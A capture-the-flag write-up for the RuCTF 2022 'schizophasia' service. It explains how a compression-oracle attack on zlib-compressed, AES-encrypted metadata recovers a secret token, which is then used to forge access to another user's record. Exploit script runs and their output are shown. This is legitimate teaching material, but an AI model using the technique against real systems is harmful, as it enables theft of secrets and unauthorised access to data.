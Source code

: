 ### RuCTF 2022 | schizophasia

# Description

Service forwards your question to a doctor who can easily answer any question. The only problem that it seems like the doctor speaks some nonsense.

Service consists of two parts: registry and doctor.

## Doctor (GoLang)

The doctor can answer any question. Unfortunately, the doctor doesn't want to communicate with the outside world. The only thing that doctor accepts is specially crafted messages from the registry. After reading the message, the doctor writes the response into the registry and creates a special token for the user.

## Registry (PostgreSQL)
The registry is a PostgreSQL instance with a slightly modified protocol. It uses `Y` instead of `R` to mark an authentication request message. Service can do one of the following:

1. Wrap your question into a special message that the doctor service can understand.
2. Look up the medical records and exchange the token from the doctor for the record that contains the doctor's answer to your question.

## Client
To make life easier, the service also provides the client application that performs it automatically.


# Details
Here is the sample service communication flow:

1. Client sends a query to registry:
`SELECT add_job(QUESTION, USER_ID)`, where `QUESTION` and `USER_ID` are provided by the client.

2. Registry looks up the current `TOKEN`. Registry generates a new `TOKEN` every 15 minutes. Each `TOKEN` has a lifetime of 30 minutes.

3. Registry crafts the following metadata:
```json
{ "question":"QUESTION", "token": "TOKEN", "userid": "USER_ID" }
```

4. Registry compresses the metadata using ZLIB and encrypts the compressed metadata using the  AES-256-CBC cipher.

5. Registry returns the crafted metadata:

```
postgres=# select add_job('QUESTION', 'USER_ID');
                                                                             add_job
------------------------------------------------------------------------------------------------------------------------------------------------------------------
 538ACFFF99CEAC3A62CACE164A1AFFF513A061593B06AB3DA76E101B69016CC8B689AA7251CE1135646F0E26A82908AC33626EE54BD534B08CC3FC4253A34CC2C3D6734FC2105C46B05798E46D8B1B2F
(1 row)
```

6. Also, the registry stores the following information in the database:
```
 question | userid  | status | result |    date    | token
----------+---------+--------+--------+------------+-------
 QUESTION | USER_ID | f      |        | 2022-05-22 | TOKEN
```

7. Client sends the metadata to the doctor service. The doctor computes the token as SHA1 sum of the following string "USER_ID"+"TOKEN" and returns the token to the client.

```
curl --location --request PUT 'http://127.0.0.1:18181/api/v1/jobs' \
--form 'id="538ACFFF99CEAC3A62CACE164A1AFFF513A061593B06AB3DA76E101B69016CC8B689AA7251CE1135646F0E26A82908AC33626EE54BD534B08CC3FC4253A34CC2C3D6734FC2105C46B05798E46D8B1B2F"'

{"code":200,"msg":"ok","data":"90E84150E952B3976A98CF5990629BCB5FD017BF"}
```

8. Also, the doctor updates the registry medical history entry with the answer for the provided question:

```
SELECT finish_job(TOKEN, QUESTION, USER_ID, ANSWER)
```

9. Client uses the token to format a medical history lookup request to the registry. To verify the client's request, the registry also computes the SHA1 sum of "USER_ID"+"TOKEN" and checks if it matches the provided one.

```
postgres=# SELECT * FROM medical_history('USER_ID', '90E84150E952B3976A98CF5990629BCB5FD017BF') limit 1;
     q     |    u    | s |   r
-----------+---------+---+--------
 QUESTION2 | USER_ID | t | ANSWER
(1 row)
```

# Attack

## Overview
The solution is pretty straightforward. If you look closer at steps 1-5, you can notice that the client is able to inject arbitrary data into the contents of the compressed & encrypted metadata and observe its size. It allows the attacker (client) to exploit the "compression oracle" vulnerability.

By utilizing the compression oracle attack, the client is able to read the contents of the encrypted metadata (including the TOKEN) from the registry (step 5). The client can now compute the SHA1 hash with any USER_ID (received from the check system) and pass it to the registry service to read the medical history entry.

## Example

### Token lookup

```
~/ructf-2022/sploits/schizophasia$ ./guess_token.py 127.0.0.1
current letter: A, len: 192
current letter: B, len: 192
current letter: C, len: 192
current letter: D, len: 192
current letter: E, len: 192
current letter: F, len: 192
current letter: G, len: 192
current letter: H, len: 192
current letter: I, len: 192
current letter: J, len: 192
current letter: K, len: 192
current letter: L, len: 160
current letter: M, len: 192
current letter: N, len: 192
current letter: O, len: 192
current letter: P, len: 192
current letter: Q, len: 192
current letter: R, len: 192
current letter: S, len: 192
current letter: T, len: 192
current letter: U, len: 192
current letter: V, len: 192
current letter: W, len: 192
current letter: X, len: 192
current letter: Y, len: 192
current letter: Z, len: 192
INITIAL LENGTHS: [(160, 'L')]

# on the next step, choose the entry with the smallest metadata length

current guess: LY, len: 160
current guess: LYG, len: 160
current guess: LYGU, len: 160
current guess: LYGUR, len: 160
current guess: LYGURO, len: 160
current guess: LYGUROU, len: 160
current guess: LYGUROUO, len: 160
current guess: LYGUROUOI, len: 160
current guess: LYGUROUOIF, len: 160
current guess: LYGUROUOIJ, len: 160
current guess: LYGUROUOIR, len: 160
[[[[[[[[[[('LYGUROUOIF', 160), ('LYGUROUOIJ', 160), ('LYGUROUOIR', 160)]]]]]]]]]]
```

### Get flag
```
~/ructf-2022/sploits/schizophasia$ ./get_flag.py 127.0.0.1 user_361fe807-f003-44f9-9338-2ca69c223ff4 LYGUROUOIR
SHA1('user_361fe807-f003-44f9-9338-2ca69c223ff4LYGUROUOIR'): E77BC343618D5D6E4F5B00B36CF23EED36AA6856
SELECT * FROM medical_history('user_361fe807-f003-44f9-9338-2ca69c223ff4', 'E77BC343618D5D6E4F5B00B36CF23EED36AA6856')

Question: LS0O22K9GDQW6832WXEXE7HIUXQGTSJ=
User: user_361fe807-f003-44f9-9338-2ca69c223ff4
Status: True
Answer: intelligence and machine learning can fight cyberthreats more effectively and reduce the lifecycle and impact of breaches when they occur
```

